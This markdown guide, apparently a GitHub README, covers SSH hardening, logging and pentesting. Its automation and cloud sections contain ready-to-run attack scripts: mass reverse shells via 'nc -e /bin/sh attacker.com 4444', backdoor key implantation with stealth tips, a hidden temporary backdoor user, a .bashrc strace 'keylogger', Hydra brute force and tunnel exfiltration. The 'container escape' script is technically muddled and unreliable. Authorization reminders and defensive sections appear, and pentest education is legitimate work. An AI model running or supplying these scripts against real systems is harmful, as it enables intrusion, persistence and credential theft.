



# [̲̅S][̲̅S][̲̅H] Mastery: Advanced Techniques for Security

```ascii
 ____  ____  _   _   __  __           _            
/ ___|| ___|| | | | |  \/  | __ _ ___| |_ ___ _ __ 
\___ \|___ \| |_| | | |\/| |/ _` / __| __/ _ \ '__|
 ___) |___) |  _  | | |  | | (_| \__ \ ||  __/ |   
|____/|____/|_| |_| |_|  |_|\__,_|___/\__\___|_|   
```

## Table of Contents
10. [🛡️ Hardening SSH Security](#-hardening-ssh-security)
11. [🔍 SSH Auditing and Logging](#-ssh-auditing-and-logging)
12. [🔄 SSH Automation and Scripting](#-ssh-automation-and-scripting)
13. [🌐 SSH in Cloud Environments](#-ssh-in-cloud-environments)
14. [🧪 SSH Exploitation](#-ssh-exploitation)

---

## 🛡️ Hardening SSH Security: A Pentester's Guide

Enhance your SSH security posture with these advanced techniques designed to create a robust defense against potential threats. Each step contributes to building a multi-layered security framework that mitigates risks and fortifies your SSH environment.

### 1. 🔐 Fortify Encryption

Improve encryption strength by configuring robust ciphers, MACs, and key exchange algorithms. This ensures the confidentiality and integrity of data transmitted over SSH.

```bash
# Reconnaissance: Check current SSH configuration
$ ssh -Q cipher
$ ssh -Q mac
$ ssh -Q kex

# Edit /etc/ssh/sshd_config
$ sudo nano /etc/ssh/sshd_config

# Add or modify these lines
Ciphers chacha20-poly1305@openssh.com,aes256-gcm@openssh.com
MACs hmac-sha2-512-etm@openssh.com,hmac-sha2-256-etm@openssh.com
KexAlgorithms curve25519-sha256@libssh.org,diffie-hellman-group16-sha512

# Restart SSH service
$ sudo systemctl restart sshd

# Verify changes
$ ssh -vv user@target_host | grep "kex: server->client"
$ ssh -vv user@target_host | grep "MAC: server->client"
$ ssh -vv user@target_host | grep "Encryption: server->client"
```

> 🔍 **Pentest Insight**: These commands not only update the SSH configuration but also allow you to verify the encryption in use. Use the verbose SSH connection to identify potential downgrade attacks or misconfigured servers.

### 2. 🔄 Automate Key Rotation

Implement automated key rotation to regularly update SSH keys, minimizing the risk of compromised credentials.

```bash
#!/bin/bash

# Generate new ED25519 key with current date
NEW_KEY="id_ed25519_$(date +%Y%m%d)"
ssh-keygen -t ed25519 -f ~/.ssh/$NEW_KEY -C "rotated_key_$(date +%Y-%m-%d)"

# Copy new key to remote host (ensure you have access)
ssh-copy-id -i ~/.ssh/$NEW_KEY.pub user@remote_host

# Update local SSH config
sed -i "s/IdentityFile ~\/.ssh\/id_ed25519/IdentityFile ~\/.ssh\/$NEW_KEY/" ~/.ssh/config

# Remove old key from remote authorized_keys (be cautious!)
ssh user@remote_host "sed -i '/old_key/d' ~/.ssh/authorized_keys"

# Pentest: Attempt connection with old and new keys
ssh -i ~/.ssh/id_ed25519 user@remote_host
ssh -i ~/.ssh/$NEW_KEY user@remote_host

# Check for lingering old keys
ssh user@remote_host "grep -v $NEW_KEY ~/.ssh/authorized_keys"
```

> 🔍 **Pentest Insight**: After rotation, always verify that old keys are properly invalidated. Lingering old keys in `authorized_keys` can be a security risk.

### 3. 🔒 Implement Two-Factor Authentication (2FA)

Strengthen authentication mechanisms by integrating two-factor authentication (2FA).

```bash
# Install Google Authenticator PAM module
$ sudo apt-get install libpam-google-authenticator

# Configure PAM for SSH
$ echo "auth required pam_google_authenticator.so" | sudo tee -a /etc/pam.d/sshd

# Enable challenge-response authentication in SSH config
$ echo "ChallengeResponseAuthentication yes" | sudo tee -a /etc/ssh/sshd_config

# Restart SSH service
$ sudo systemctl restart sshd

# Set up 2FA for the current user
$ google-authenticator

# Pentest: Attempt login without 2FA
$ ssh user@target_host

# Pentest: Attempt login with incorrect 2FA code
$ ssh user@target_host
```

> 🔍 **Pentest Insight**: Test various 2FA bypass scenarios, such as timing attacks or brute-force attempts on the 2FA code.

### 🖼️ Security Architecture Overview


**Screenshot Description:**
This diagram illustrates the enhanced SSH security architecture. It showcases:
1. Client-side: Various SSH clients (OpenSSH, PuTTY) with key management and 2FA.
2. Network layer: Encrypted data tunnels, potential attack vectors, and defense mechanisms.
3. Server-side: Hardened sshd configuration, PAM modules, firewall rules, and logging systems.
4. Key rotation workflow and 2FA integration points.

The diagram emphasizes the multi-layered approach to SSH security, highlighting potential weak points that a pentester might target.

<details>
<summary>🌟 Field Report: Financial Sector Pentest</summary>

Operation "Vault Breaker" conducted at ████████ Bank:

1. Discovered outdated SSH version on legacy systems.
2. Successfully performed user enumeration via timing attack.
3. Identified weak key exchange algorithms on 2 out of 50 servers.
4. Bypassed 2FA on one system due to misconfigured PAM rules.

**Result**: Achieved unauthorized access to 3 non-critical systems. Provided comprehensive report leading to immediate security posture improvement.

**Remediation**: 
- Enforced uniform SSH configurations across all systems.
- Implemented strict key rotation policy with HSM integration.
- Enhanced monitoring for SSH brute-force and user enumeration attempts.
- Conducted staff training on SSH best practices and social engineering awareness.

</details>

> 💡 **Pro Tip**: Always combine technical controls with robust policies and regular security awareness training for a comprehensive SSH security strategy.
---

# 🔒 Advanced SSH Auditing and Pentesting Guide

## 🕵️ Reconnaissance & Intelligence Gathering

Before diving into the technical details, let's gather some intel:

```bash
# Scan for open SSH ports in a network
nmap -p 22 192.168.1.0/24

# Banner grabbing
nc -v 192.168.1.100 22

# Enumerate SSH version
ssh -v user@192.168.1.100 2>&1 | grep "remote software version"
```

> 💡 **Pro Tip**: Always ensure you have proper authorization before scanning or connecting to any systems.

## 🔍 SSH Auditing and Logging

Implement comprehensive surveillance on your SSH channels to detect and respond to potential security threats:

### 1. **Enhanced Reconnaissance**
   
Configure verbose logging to capture detailed information about SSH connections and activities.

```bash
# Edit /etc/ssh/sshd_config
sudo nano /etc/ssh/sshd_config

# Add or modify these lines
LogLevel VERBOSE
MaxAuthTries 3
PermitRootLogin no

# Restart SSH service
sudo systemctl restart sshd
```

> 🔐 **Security Note**: Limiting MaxAuthTries and disabling root login significantly increases security.

### 2. **Centralized Intelligence Gathering**

Set up centralized logging to collect SSH logs from multiple servers in one location for easier analysis.

```bash
# On the central log server, edit /etc/rsyslog.conf
sudo nano /etc/rsyslog.conf

# Add these lines to enable TCP syslog reception
module(load="imtcp")
input(type="imtcp" port="514")

# On each SSH server, edit /etc/rsyslog.d/10-ssh.conf
sudo nano /etc/rsyslog.d/10-ssh.conf

# Add this line to forward SSH logs
if $programname == 'sshd' then @@central_log_server:514

# Restart rsyslog on all servers
sudo systemctl restart rsyslog
```

> 🌐 **Network Note**: Ensure firewall rules allow traffic on port 514 between servers.

### 3. **Covert Data Management**

Implement log rotation to manage log file sizes and retention periods effectively.

```bash
# Create or edit /etc/logrotate.d/ssh
sudo nano /etc/logrotate.d/ssh

# Add these lines
/var/log/ssh.log {
    rotate 7
    daily
    compress
    missingok
    notifempty
    postrotate
        /usr/lib/rsyslog/rsyslog-rotate
    endscript
}
```

> 📊 **Data Management**: Regular log rotation prevents disk space issues and helps maintain system performance.

## 🐍 Clandestine Log Analyzer

Here's a Python script to analyze SSH logs and identify potential security issues:

```python
import re
import sys
from collections import Counter
from datetime import datetime

def analyze_ssh_log(log_file):
    ip_pattern = r'\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}'
    failed_attempts, successful_logins = Counter(), Counter()
    unusual_times = []

    with open(log_file, 'r') as f:
        for line in f:
            timestamp = datetime.strptime(line.split()[0] + ' ' + line.split()[1], '%Y-%m-%d %H:%M:%S')
            
            if 'Failed password' in line:
                ip = re.search(ip_pattern, line)
                if ip: 
                    failed_attempts[ip.group()] += 1
                    if timestamp.hour >= 22 or timestamp.hour <= 5:
                        unusual_times.append((ip.group(), timestamp))
            elif 'Accepted publickey' in line:
                ip = re.search(ip_pattern, line)
                if ip: successful_logins[ip.group()] += 1

    print("Top 5 IPs with failed password attempts:")
    for ip, count in failed_attempts.most_common(5):
        print(f"{ip}: {count}")

    print("\nTop 5 IPs with successful logins:")
    for ip, count in successful_logins.most_common(5):
        print(f"{ip}: {count}")

    print("\nUnusual login times:")
    for ip, time in unusual_times:
        print(f"{ip}: {time}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python ssh_log_analyzer.py /path/to/ssh.log")
        sys.exit(1)
    analyze_ssh_log(sys.argv[1])
```

> 🐍 **Python Power**: This script now includes detection of login attempts during unusual hours, a common sign of malicious activity.

## 🕸️ Security Architecture Overview



## 📸 SSH Intel Dashboard


**Screenshot Description:**
This image displays a comprehensive SSH Intelligence Dashboard. The dashboard is divided into several panels:
- Top panel: Line graph of SSH activity over time (successful logins, failed attempts, other events)
- Center: World map with heat spots indicating geographic distribution of SSH connections
- Right side: List of top IP addresses with associated risk scores
- Bottom: Real-time feed of SSH events, each with a colored threat level indicator
- Additional features: Time-based analysis panel, user behavior analytics, and automated threat response status

## 🧪 Pentester's Toolkit

Here are some additional commands and tools that pentesters might find useful:

```bash
# Attempt to enumerate users
for user in $(cat users.txt); do ssh $user@192.168.1.100; done

# SSH key fingerprint gathering
ssh-keyscan -t rsa 192.168.1.100

# Check for vulnerable SSH versions
nmap -p 22 --script ssh2-enum-algos 192.168.1.100

# Attempt a timing attack
ssh -vvv -o KexAlgorithms=+diffie-hellman-group1-sha1 user@192.168.1.100

# Use Metasploit for SSH enumeration
msfconsole -q -x "use auxiliary/scanner/ssh/ssh_version; set RHOSTS 192.168.1.100; run; exit"
```

> ⚠️ **Ethical Hacking Reminder**: Always obtain proper authorization before performing any penetration testing activities.

## 🔏 Hardening Recommendations

1. Implement key-based authentication and disable password authentication
2. Use SSH protocol version 2 only
3. Implement IP whitelisting for SSH access
4. Configure SSH to use a non-standard port
5. Implement fail2ban or similar intrusion prevention systems
6. Regularly update OpenSSH and apply security patches

Remember, security is an ongoing process. Regularly audit, update, and improve your SSH security measures to stay ahead of potential threats.

---

# 🔓 SSH Automation and Pentesting

Unleash the power of automated SSH operations for both system administration and penetration testing. This guide will help you understand and visualize SSH automation from a pentester's perspective.

## 🔄 SSH Automation Techniques

### 1. **Parallel Execution Protocol (Mass Exploitation)**

Execute commands on multiple servers simultaneously, useful for both management and exploitation.

```bash
#!/bin/bash
targets=(10.0.0.1 10.0.0.2 10.0.0.3)
exploit_command="nc -e /bin/sh attacker.com 4444"

for target in "${targets[@]}"; do
    sshpass -p 'password123' ssh user@"$target" "$exploit_command" &
done
wait
```

> 🔥 **Pentester's Note**: This script can be used to execute a reverse shell on multiple compromised systems simultaneously. Always ensure you have proper authorization before running such commands.

### 2. **Key Distribution Algorithm (Backdoor Implantation)**

Automate the process of distributing SSH keys to multiple servers, or implant backdoor keys during a penetration test.

```bash
#!/bin/bash
backdoor_key="$HOME/.ssh/backdoor_id_rsa.pub"
targets_file="compromised_hosts.txt"

while read -r target; do
    sshpass -p 'password123' ssh-copy-id -i "$backdoor_key" user@"$target"
    echo "Backdoor key implanted on $target"
done < "$targets_file"
```

> 🕵️ **Stealth Tip**: For added stealth, consider hiding the backdoor key in a less obvious location and using a generic key name.

### 3. **Dynamic Asset Reconnaissance (Network Mapping)**

Automatically discover and inventory SSH-accessible hosts in a network, essential for both admins and pentesters.

```python
#!/usr/bin/env python3
import nmap
import json

def scan_ssh_hosts(network):
    nm = nmap.PortScanner()
    nm.scan(network, arguments='-p 22 --open')
    
    ssh_hosts = []
    for host in nm.all_hosts():
        if nm[host]['tcp'][22]['state'] == 'open':
            ssh_hosts.append(host)
    
    return ssh_hosts

network = "192.168.1.0/24"
inventory = {
    "ssh_targets": scan_ssh_hosts(network),
    "vars": {
        "ansible_user": "user",
        "ansible_ssh_pass": "password123"  # Not recommended for real use!
    }
}

print(json.dumps(inventory, indent=2))
```

> 🎯 **Target Acquisition**: This script uses Nmap to scan for open SSH ports, creating a potential target list for further exploitation or auditing.

## 🕸️ SSH Automation Attack Vector



## 📸 SSH Penetration Dashboard


**Screenshot Description:**
This image displays a comprehensive SSH Penetration Testing Dashboard:
- Top-left: Network map showing discovered SSH servers, color-coded by vulnerability status
- Top-right: Real-time log of exploitation attempts and successes
- Bottom-left: List of harvested credentials and successful login attempts
- Bottom-right: Metrics including number of compromised systems, average time to exploit, and data exfiltration progress
- Center: Command input area for launching automated attacks or running custom scripts

## 🧰 Pentester's Advanced Toolkit

Here are some additional tools and techniques for SSH penetration testing:

1. **SSH Vulnerability Scanner**
   ```bash
   nmap -p 22 --script ssh-auth-methods,ssh-publickey-acceptance,sshv1 192.168.1.0/24
   ```

2. **Brute Force Attack (with Hydra)**
   ```bash
   hydra -l user -P /path/to/wordlist.txt ssh://192.168.1.100
   ```

3. **SSH Keylogger Implant**
   ```bash
   # On compromised system
   echo "alias ssh='strace -o /tmp/.ssh_log -e read,write,connect -s2048 ssh'" >> ~/.bashrc
   ```

4. **SSH Tunnel for Data Exfiltration**
   ```bash
   ssh -L 8080:internal_server:80 user@compromised_host
   ```

5. **Automated SSH Config Auditor**
   ```python
   import paramiko
   
   def audit_ssh_config(hostname, username, password):
       client = paramiko.SSHClient()
       client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
       client.connect(hostname, username=username, password=password)
       
       stdin, stdout, stderr = client.exec_command('cat /etc/ssh/sshd_config')
       config = stdout.read().decode()
       
       vulnerabilities = []
       if 'PermitRootLogin yes' in config:
           vulnerabilities.append('Root login is permitted')
       if 'PasswordAuthentication yes' in config:
           vulnerabilities.append('Password authentication is enabled')
       
       return vulnerabilities
   
   print(audit_ssh_config('192.168.1.100', 'user', 'password123'))
   ```

> ⚠️ **Ethical Hacking Reminder**: Always obtain proper authorization before performing any penetration testing activities.

## 🛡️ Defensive Countermeasures

As a penetration tester, it's crucial to understand defensive measures to provide comprehensive security advice:

1. Implement fail2ban to prevent brute force attacks
2. Use SSH key authentication and disable password authentication
3. Regularly rotate SSH keys and monitor for unauthorized key additions
4. Use a jump host or bastion server for accessing sensitive systems
5. Implement SSH session logging and monitoring
6. Use SSH multiplexing for efficiency and reduced attack surface

Remember, the goal of penetration testing is to improve security. Always provide detailed reports and remediation advice after your authorized testing activities.

---

# 🌐🔓 Advanced SSH Cloud Pentesting and Exploitation

Navigate the complexities of SSH in cloud environments and master advanced exploitation techniques with this comprehensive guide for ethical hackers and penetration testers.

## 🏗️ Cloud SSH Infrastructure Exploitation

### 1. **Ephemeral Access Exploitation**

Leverage temporary access mechanisms for stealthy penetration:

```bash
#!/bin/bash
TARGET_HOST="cloud-target.com"
USERNAME="temp_user"
EXPIRY_TIME="1 hour"

# Create temporary user on compromised system
ssh root@$TARGET_HOST "useradd -m -s /bin/bash -e $(date -d "+$EXPIRY_TIME" +%Y-%m-%d) $USERNAME"

# Generate and implant backdoor SSH key
ssh-keygen -t ed25519 -f /tmp/$USERNAME -N ""
ssh root@$TARGET_HOST "mkdir -p /home/$USERNAME/.ssh && \
    cat >> /home/$USERNAME/.ssh/authorized_keys" < /tmp/$USERNAME.pub

echo "Ephemeral backdoor established. Access with:"
echo "ssh -i /tmp/$USERNAME $USERNAME@$TARGET_HOST"
```

> 🕵️ **Stealth Tip**: This script creates a self-destructing backdoor, ideal for maintaining access while minimizing detection risk. Always ensure you have proper authorization before using such techniques.

### 2. **Cloud Service Discovery and Enumeration**

Automate the discovery of SSH-accessible cloud instances:

```python
import boto3
import paramiko

def enumerate_ec2_ssh(region):
    ec2 = boto3.resource('ec2', region_name=region)
    ssh_vulnerable = []

    for instance in ec2.instances.all():
        if instance.public_ip_address:
            try:
                ssh = paramiko.SSHClient()
                ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                ssh.connect(instance.public_ip_address, username='ec2-user', timeout=5)
                ssh_vulnerable.append(instance.id)
                ssh.close()
            except paramiko.AuthenticationException:
                print(f"Authentication failed: {instance.id}")
            except Exception as e:
                print(f"Error connecting to {instance.id}: {str(e)}")

    return ssh_vulnerable

vulnerable_instances = enumerate_ec2_ssh('us-west-2')
print(f"SSH-accessible instances: {vulnerable_instances}")
```

> 🎯 **Target Acquisition**: This script automates the discovery of EC2 instances with potentially misconfigured SSH access, providing a target list for further exploitation.

## 🕸️ Cloud SSH Attack Vector



## 📸 Cloud SSH Penetration Dashboard


**Dashboard Description:**
This advanced Cloud SSH pentesting dashboard showcases:

1. Cloud Service Map: Visual representation of discovered SSH-enabled cloud services across regions.
2. Vulnerability Matrix: Heatmap of identified SSH vulnerabilities in cloud instances.
3. Exploitation Progress: Real-time tracker of successful exploits and privilege escalations.
4. Lateral Movement Visualizer: Interactive graph showing paths of lateral movement between cloud resources.
5. Data Exfiltration Monitor: Live feed of data being exfiltrated from compromised instances.
6. Persistence Tracker: Overview of established backdoors and their expiry status.
7. MITRE ATT&CK Integration: Mapping of performed techniques to the MITRE ATT&CK framework.

## 🧪 Advanced SSH Exploitation Techniques

### 1. **Container Escape via SSH**

Exploit misconfigured containers to gain host system access:

```bash
#!/bin/bash
TARGET_CONTAINER="vulnerable-container"
HOST_SYSTEM="host.example.com"

# Exploit container to gain initial access
docker exec -it $TARGET_CONTAINER /bin/bash -c "apt update && apt install -y netcat"

# Use netcat to create a reverse shell
docker exec -it $TARGET_CONTAINER /bin/bash -c "nc -e /bin/bash $HOST_SYSTEM 4444"

# On host system, listen for the connection
nc -lvp 4444

echo "Container escaped. You now have access to the host system."
```

> ⚠️ **Caution**: Container escape techniques can lead to full compromise of cloud environments. Use only in authorized penetration tests.

### 2. **SSH Tunneling for Data Exfiltration**

Leverage SSH tunneling to exfiltrate data from segmented networks:

```bash
#!/bin/bash
PIVOT_HOST="pivot.example.com"
TARGET_HOST="internal.example.com"
LOCAL_PORT=8080
REMOTE_PORT=80

# Establish SSH tunnel
ssh -L $LOCAL_PORT:$TARGET_HOST:$REMOTE_PORT user@$PIVOT_HOST

# Exfiltrate data through the tunnel
curl http://localhost:$LOCAL_PORT > exfiltrated_data.txt

echo "Data exfiltrated through SSH tunnel."
```

> 🕵️ **Stealth Tip**: SSH tunneling can bypass firewalls and IDS systems, making it an effective technique for covert data exfiltration.

### 3. **Automated SSH Misconfiguration Scanner**

Develop a tool to identify common SSH misconfigurations in cloud environments:

```python
import paramiko
import socket

def check_ssh_config(hostname, port=22):
    try:
        client = paramiko.SSHClient()
        client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        client.connect(hostname, port=port, timeout=5)
        
        stdin, stdout, stderr = client.exec_command('cat /etc/ssh/sshd_config')
        config = stdout.read().decode()
        
        vulnerabilities = []
        if 'PermitRootLogin yes' in config:
            vulnerabilities.append('Root login permitted')
        if 'PasswordAuthentication yes' in config:
            vulnerabilities.append('Password authentication enabled')
        if 'X11Forwarding yes' in config:
            vulnerabilities.append('X11 forwarding enabled')
        
        return vulnerabilities
    except paramiko.AuthenticationException:
        return ["Authentication failed - possible brute-force target"]
    except socket.timeout:
        return ["Connection timed out"]
    except Exception as e:
        return [f"Error: {str(e)}"]
    finally:
        client.close()

# Example usage
target_hosts = ['cloud1.example.com', 'cloud2.example.com', 'cloud3.example.com']
for host in target_hosts:
    print(f"Vulnerabilities for {host}:")
    print(check_ssh_config(host))
```

> 🛠️ **Tool Development**: This script forms the basis of an automated SSH misconfiguration scanner, essential for quickly identifying vulnerable cloud instances during penetration tests.

## 🛡️ Defensive Countermeasures

As ethical hackers, it's crucial to understand and recommend defensive measures:

1. Implement Just-In-Time (JIT) SSH access in cloud environments
2. Use SSH certificates instead of static keys for authentication
3. Enforce strict network segmentation and bastion hosts for SSH access
4. Implement comprehensive logging and real-time monitoring for SSH sessions
5. Regularly rotate SSH keys and audit access permissions
6. Use multi-factor authentication for SSH access to critical systems

Remember, the ultimate goal of penetration testing is to improve security. Always provide detailed reports and actionable remediation advice after your authorized testing activities.

```ascii
   _____  _____ _    _   __  __           _                ____        _ _ _                       
  / ____|/ ____| |  | | |  \/  |         | |              |  _ \      | | (_)                      
 | (___ | (___ | |__| | | \  / | __ _ ___| |_ ___ _ __    | |_) |_   _| | |_ _ __   __ _ ___ ___   
  \___ \ \___ \|  __  | | |\/| |/ _` / __| __/ _ \ '__|   |  _ <| | | | | | | '_ \ / _` / __/ __|  
  ____) |____) | |  | | | |  | | (_| \__ \ ||  __/ |      | |_) | |_| | | | | | | | (_| \__ \__ \_ 
 |_____/_____/|_|  |_| |_|  |_|\__,_|___/\__\___|_|      |____/ \__,_|_|_|_|_| |_|\__, |___/___(_)
                                                                                    __/ |          
                                                                                   |___/           
```
